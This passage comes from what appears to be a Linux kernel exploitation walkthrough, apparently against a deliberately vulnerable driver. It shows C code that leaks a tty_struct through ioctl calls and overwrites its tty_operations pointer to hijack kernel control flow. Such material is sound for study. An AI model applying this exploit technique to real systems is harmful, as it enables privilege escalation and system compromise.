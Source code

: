 ```c

if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
    perror("USE_READ failed");
    free(leaked_data);
    goto cleanup;
}

// printf("[+] dumping leaked data...\n"); to verify if its a tty struct 
for (size_t i = 0; i < (target_size/2); i += 16) {
    printf("0x%016lx\t", *(uint64_t*)&leaked_data[i]);
    if (i + 8 < target_size) {
        printf("0x%016lx\n", *(uint64_t*)&leaked_data[i + 8]);
    } else {
        printf("\n");
    }
}

// This function works similar to how we discussed in 4th point.
if (validate_tty_struct(leaked_data, target_size)) {
    // discussed in next point :D
    return 0;
} else {
    printf("[-] Leaked data does not appear to be tty_struct\n");
}
```


#### 10. change the `ops*` to point to our table (`next + some_offset`).

```c
struct tty_struct_layout *tty = (struct tty_struct_layout*)leaked_data;
printf("  tty_operations pointer: 0x%lx\n", tty->ops);
// waitenter();
// Perform KASLR bypass
tty->ops = tty_table_address;
// save the tty_struct pointer with vulnfd
if (ioctl(vuln_fd, USE_WRITE, leaked_data) != 0) {
perror("USE_WRITE failed");
free(leaked_data);
goto cleanup;
}
memset(&leaked_data[0], 0, target_size);
if (ioctl(vuln_fd, USE_READ, leaked_data) != 0) {
  perror("USE_READ failed");
  free(leaked_data);
  goto cleanup;
}
printf("[+] Successfully wrote tty_struct to vuln_fd again to verify\n");
printf(" tty_operations pointer: 0x%lx\n", ((struct tty_struct_layout *)leaked_data)->ops);
free(leaked_data);
waitenter(); // waits for user to press enter character, gives me time to attach gdb manually if required.
}   
```

